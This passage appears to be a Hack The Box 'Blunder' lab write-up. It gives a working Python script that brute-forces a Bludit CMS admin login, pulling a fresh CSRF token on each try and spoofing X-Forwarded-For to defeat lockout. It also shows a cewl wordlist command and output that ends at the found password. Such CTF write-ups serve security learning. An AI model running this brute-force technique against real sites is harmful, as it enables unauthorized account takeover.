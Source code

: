 	I am failure by using the rockyou.txt as the password list to gain the website login access, but, it is success using [cewl](https://tools.kali.org/password-attacks/cewl) to gathering the wordlist from the site.

	```
	#!/usr/bin/env python3
	import re
	import requests
	host = 'http://10.10.10.191'
	login_url = host + '/admin/login'
	username = 'fergus'
	wordlist = []
	pwd = open('password.txt','r')
	for line in pwd:
		line=line.rstrip()
		wordlist.append(line)
	# Add the correct password to the end of the list
	wordlist.append('adminadmin')
	for password in wordlist:
		session = requests.Session()
		login_page = session.get(login_url)
		csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
		print('[*] Trying: {p}'.format(p = password))
		headers = {
			'X-Forwarded-For': password,
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
			'Referer': login_url
		}
		data = {
			'tokenCSRF': csrf_token,
			'username': username,
			'password': password,
			'save': ''
	  		}
		login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
		if 'location' in login_result.headers:
			if '/admin/dashboard' in login_result.headers['location']:
				print()
				print('SUCCESS: Password found!')
				print('Use {u}:{p} to login.'.format(u = username, p = password))
				print()
				break
	```

	```
	root@kclai:~/Documents/ctf/htb/linux/17-HTB-Blunder/exploit# cewl 10.10.10.191 > password.txt
	root@kclai:~/Documents/ctf/htb/linux/17-HTB-Blunder/exploit# python3 exploit.py 
	[*] Trying: CeWL 5.4.6 (Exclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
	[*] Trying: the
	[*] Trying: Load
	[*] Trying: Plugins
	[*] Trying: and
	.......
	.....
	....
	...
	[*] Trying: Letters
	[*] Trying: probably
	[*] Trying: best
	[*] Trying: fictional
	[*] Trying: character
	[*] Trying: RolandDeschain